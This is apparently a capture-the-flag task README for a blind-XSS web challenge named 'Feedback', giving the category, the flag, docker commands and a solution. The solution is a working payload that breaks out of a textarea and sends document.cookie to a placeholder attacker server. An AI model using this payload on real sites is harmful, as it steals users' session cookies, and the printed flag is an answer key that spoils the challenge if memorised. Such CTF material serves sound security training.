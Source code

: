 ## Feedback

### Category
Web

### Points
medium/hard

### Task description
Ваше  мнение очень важно для нас.
@baydarich

### Flag
kaiCTF{c063c864e3fa3d802271ed5198f88118}

### Hint
blind xss

### Info

Go to `ready` folder and run:
```
docker build --tag blind-xss-task .
docker run -d -p 31337:31337 blind-xss-task
```

### Solution
```
</textarea><script>document.write('<img src="http://SERVER/?' + document.cookie + '"/>')</script>
```
